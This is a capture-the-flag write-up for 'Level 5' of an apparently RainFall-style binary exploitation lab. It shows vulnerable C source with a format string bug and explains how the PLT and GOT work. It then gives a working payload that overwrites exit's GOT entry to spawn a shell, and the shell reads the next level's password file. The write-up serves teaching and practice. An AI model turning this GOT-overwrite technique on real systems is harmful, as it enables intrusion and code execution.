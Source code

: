 # Level 5

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>

void o(void)
{
    system("/bin/sh");
    _exit(1);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);
    exit(1);
}

int main(void)
{
    n();
}
```

Let's focus on the `n` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous ones, except that we have to write the address of the `o` function into the value that the address of GOT table points to, called by `exit`. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

This only works because `exit` is a function in the Procedure Linkage Table (PLT), a mechanism used in dynamic linking to call external functions. When a function like `exit` is called, the PLT initially redirects to the Global Offset Table (GOT), which then points back to the PLT and subsequently to the dynamic linker for the first call.
> Read more about that [here](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got).

Here you see the disassembly of the `exit` function:
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
```

The PLT is the set of instructions you see (`jmp`, `push`, `jmp`).  
The GOT is referenced by the address `0x8049838`, which is used in the indirect jump instruction.

The `jmp *0x8049838` instruction dereferences the address stored at `0x8049838` and jumps to it. After our tampering, this will be the address of the `o` function.

So, first let's locate our input string on the stack:
```bash
level5@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

The assembly code reveals that the address of the `o` function is `0x080484a4` and we showed before that the address of the GOT table is `0x8049838`.

We can then craft our payload:
```
address of the GOT table + address of o + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n"
```

Since we need to write `080484A4` into the value pointed to by the address of the GOT table, we write 134513828 (`080484A4` in decimal) characters (4 from the address of the GOT table and 134513824 from the width specifier of `%p`).  
Then, we use the `%n` format specifier to write the count of bytes written so far into the fourth argument, which corresponds to the GOT table address.

Let's run our payload:
```bash
level5@RainFall:~$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
[...]
0x200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

We are now level6! Let's move on to the next level.
